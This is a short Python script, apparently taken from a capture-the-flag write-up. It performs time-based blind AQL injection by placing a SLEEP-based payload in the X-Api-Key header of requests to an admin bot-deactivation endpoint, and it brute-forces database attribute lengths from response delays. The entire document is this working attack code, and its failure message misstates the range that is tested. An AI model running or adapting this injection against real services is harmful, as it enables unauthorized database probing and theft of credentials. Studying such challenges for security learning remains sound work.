 ### Guessing length of attributes in AQL Database

```python
import requests
import time

# Define the target URL and headers
url = 'https://api.frostbit.app/api/v1/frostbitadmin/bot/83270120-3b1c-41f3-b25b-deaa5b5d1327/deactivate?debug=true'
headers = {
    'Host': 'api.frostbit.app',
    'X-Api-Key': ""  # Placeholder for length
}

# Function to test different lengths for each attribute
def test_attribute_length(attribute_index):
    print(f"Testing length for attribute {attribute_index}...")

    # Brute force from length 1 to 40 (you can adjust this range as needed)
    for length in range(1, 40):
        payload = f"' or LENGTH(ATTRIBUTES(doc)[{attribute_index}])=={length} ? SLEEP(2) : 'a"
        #print(payload)
        headers['X-Api-Key'] = payload

        start_time = time.time()  # Record the start time of the request
        response = requests.get(url, headers=headers)

        elapsed_time = time.time() - start_time  # Calculate the response time

        if elapsed_time >= 2:  # If the response is delayed by 2 seconds, it means we've found the correct length
            print(f"Attribute {attribute_index} has length: {length}")
            return length

        time.sleep(0.5)  # Small delay between requests to avoid overloading the server

    print(f"Could not determine the length for attribute {attribute_index} in the range 1-20.")
    return None

# Function to determine the lengths of all attributes (we know there are 4 attributes)
def determine_attribute_lengths():
    attribute_lengths = []
    
    for i in range(4):  # Loop through the 4 attributes
        length = test_attribute_length(i)
        if length is not None:
            attribute_lengths.append(length)
    
    return attribute_lengths

# Main function to run the script
if __name__ == "__main__":
    print("Starting brute-force for attribute lengths...\n")
    attribute_lengths = determine_attribute_lengths()
    if attribute_lengths:
        print("\n")
        for index, length in enumerate(attribute_lengths):
            print(f"Attribute {index} has length of {length}")
    else:
        print("\nFailed to determine attribute lengths.")
```
